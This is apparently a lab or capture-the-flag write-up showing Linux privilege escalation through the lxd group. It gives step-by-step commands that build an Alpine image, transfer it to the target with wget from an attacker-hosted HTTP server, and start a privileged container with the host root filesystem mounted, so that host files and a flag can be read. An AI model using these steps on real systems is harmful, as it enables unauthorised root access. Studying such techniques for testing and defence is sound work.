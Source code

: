 Privilege escalation through lxd requires the access of local account, therefore, we choose SSH to connect and take the access local account on host machine.

_Note: the most important condition is that the user should be a member of lxd group._

ssh raj@192.168.1.105

![](https://i0.wp.com/1.bp.blogspot.com/-jyRKVNcGy3E/XaHYLb3nFXI/AAAAAAAAg6A/JfkG7FazSLYvQDZPepJw35U9l0T5SfGwQCLcBGAsYHQ/s1600/8.png?w=640&ssl=1)

In order to take escalate the root privilege of the host machine you have to create an image for lxd thus you need to perform the following the action:

1.  **Steps to be performed on the attacker machine**:

-   Download build-alpine in your local machine through the git repository.
-   Execute the script “build -alpine” that will build the latest Alpine image as a compressed file, this step must be executed by the root user.
-   Transfer the tar file to the host machine

2.  **Steps to be performed on the host machine:**

-   Download the alpine image
-   Import image for lxd
-   Initialize the image inside a new container.
-   Mount the container inside the /root directory

So, we downloaded the build alpine using the GitHub repose.

```
git clone  https://github.com/saghul/lxd-alpine-builder.git

cd lxd-alpine-builder

./build-alpine
```

![](https://i0.wp.com/1.bp.blogspot.com/-Pq2pI1v8leE/XaHYL9-edOI/AAAAAAAAg6E/T9bKB2fY8dUYd8eJFVLpv3-UPMxcmcRVACLcBGAsYHQ/s1600/9.png?w=640&ssl=1)

On running the above command, a tar.gz file is created in the working directory that we have transferred to the host machine.

python -m SimpleHTTPServer

![](https://i0.wp.com/1.bp.blogspot.com/-QJY3OdT2k8w/XaHYISYrQ-I/AAAAAAAAg5c/oYFVSoQB_w0DbfvddZirjoirtsUm112_QCLcBGAsYHQ/s1600/10.png?w=640&ssl=1)

On another hand we will download the alpine-image inside /tmp directory on the host machine.

```
cd /tmp

wget http://192.168.1.107:8000/apline-v3.10-x86_64-20191008_1227.tar.gz

```

After the image is built it can be added as an image to LXD as follows:

```
lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias myimage
```

use the list command to check the list of images

lxc image list

![](https://i0.wp.com/1.bp.blogspot.com/-yy1afthCNsc/XaHYJSIM37I/AAAAAAAAg5g/KTDuZuVIjmMzqEzlMsNY0E59r7UDV28tACLcBGAsYHQ/s1600/11.png?w=640&ssl=1)

```
lxc init myimage ignite -c security.privileged=true
```

```
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
```

```
lxc start ignite
```

```
lxc exec ignite /bin/sh
```

```
id
```

Once inside the container, navigate to /mnt/root to see all resources from the host machine.

After running the bash file. We see that we have a different shell, it is the shell of the container. This container has all the files of the host machine. So, we enumerated for the flag and found it.

mnt/root/root
ls
flag.txt
cat flag.txt

![](https://i0.wp.com/1.bp.blogspot.com/-Anb2MgTn7oM/XaHYJib3nnI/AAAAAAAAg5k/vazX4tfy3OEJLQ8EZ-o-1LEWvOpD4_vHwCLcBGAsYHQ/s1600/12.png?w=640&ssl=1)